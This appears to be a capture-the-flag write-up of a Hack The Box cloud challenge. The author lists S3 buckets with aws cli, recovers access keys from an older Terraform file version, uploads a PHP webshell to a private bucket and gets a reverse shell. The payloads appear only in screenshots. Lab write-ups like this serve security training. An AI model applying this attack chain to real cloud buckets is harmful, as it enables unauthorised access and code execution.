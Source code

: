 ### Challenge description
Cloud challenges don't have a description. We just get an IP address and are supposed to get the flag.

A port scan reveals only port 22 and 80 open.  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/b6ad51fc-cc3f-4c43-a142-ddf9c8d2cfab)

A good looking website that doesn't seem to do anything:
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/c73191e3-ab3c-4c30-8814-a19008b85d62)

Intercepting traffic with Burpsuite, as always, I noticed it was trying to load a `main.js` file from an `s3.unveiled.htb` domain.

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/48ed6942-9299-4eec-9e9e-7e2c7fdde356)

Using aws cli with my default profile, which has the creds from the AWS fortress, I was able to list the buckets. 

```bash
aws s3 ls --profile default --endpoint-url http://s3.unveiled.htb/
```
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/d150dca4-c6d4-4b46-b0a8-950f35cea92b)

_In this case it doesn't matter that I used those creds, this can be listed without any creds at all. However, I've encountered situations where this wasn't possible. You needed to be authenticated, it just didn't matter with what.. so I got in the habbit of always using "some" credentials when listing AWS stuff._

We can use the syntax below to list the contenxt of the `unveiled-backups` bucket:

```bash
aws s3 ls --profile default --endpoint-url http://s3.unveiled.htb/ s3://unveiled-backups
```
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/675045e7-c901-402a-8091-1661224dd5ca)

We can use the syntax below to recursive download everything in the bucket locally:

```bash
aws s3 cp --profile default --endpoint-url http://s3.unveiled.htb/ s3://unveiled-backups/ . --recursive
```
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/20786fee-2edd-4624-833a-1f0d9124fb6c)

We can copy from and to the bucket. The website was trying to reach a main.js file which doesn’t exist. We can create one with a reverse shell and upload it.

```bash
aws s3 cp main.js --profile default --endpoint-url http://s3.unveiled.htb/ s3://unveiled-backups/main.js
```
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/d8d0134f-a33c-4f89-841c-143325e2004b)

No callback from javascript reverse shell, when it tries to load it, we still get a 500 error. The main.tf terraform file does show that versioning is enabled:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/b2dc30a0-1e2c-4f94-b30a-5924f0d6e80f)

We can see an older version of the main.tf file:

```bash
aws s3api list-object-versions --endpoint-url http://s3.unveiled.htb/ --bucket unveiled-backups
```
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/15ce98b8-f96c-4067-b6dc-4d8c43a2fb62)

And copy it locally like this:

```bash
aws s3api get-object --endpoint-url http://s3.unveiled.htb/  --bucket unveiled-backups --key main.tf --version-id "589b5ec6-6780-4b0d-8e91-2d3932433e95" main.tf
```
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/fbf339bd-b9f3-41a7-a2d0-53a67112aa94)

This version has the keys included unlike the previous one:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/43c4ba25-8c0f-4973-a864-67d9cb190809)

We need to check what region this bucket is in so we can configure a profile:

```bash
aws s3api get-bucket-location --endpoint-url http://s3.unveiled.htb/  --bucket unveiled-backups
```
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/e14ad225-8464-4787-88c3-d63ea6f1f26d)

It's not region locked so we can use any region, I used us-east-2:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/15e535d7-8217-4fcd-909a-f503db195443)

We can now list the private bucket as well.

```bash
aws s3 ls --profile unveiled --endpoint-url http://s3.unveiled.htb/ s3://website-assets
```
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/5a8dd37c-3652-4dcc-aa49-1d837b88f1b3)

Now that we have access to this bucket, we can upload a PHP webshell since this is an Apache webserver:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/013ebe7a-af68-45bd-a5da-a1a845d4ab5b)

We can easily get a reverse shell now:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/85e59480-49ff-4e0d-bbef-08427f4212e6)

We find the flag in /var/www:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/df2dfeea-eadd-44e7-81fe-6bfddbd6e55b)  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/9b844644-76a3-4666-9161-e9959eb1e1af)

HTB{th3_r3d_pl4n3ts_cl0ud_h4s_f4ll3n}










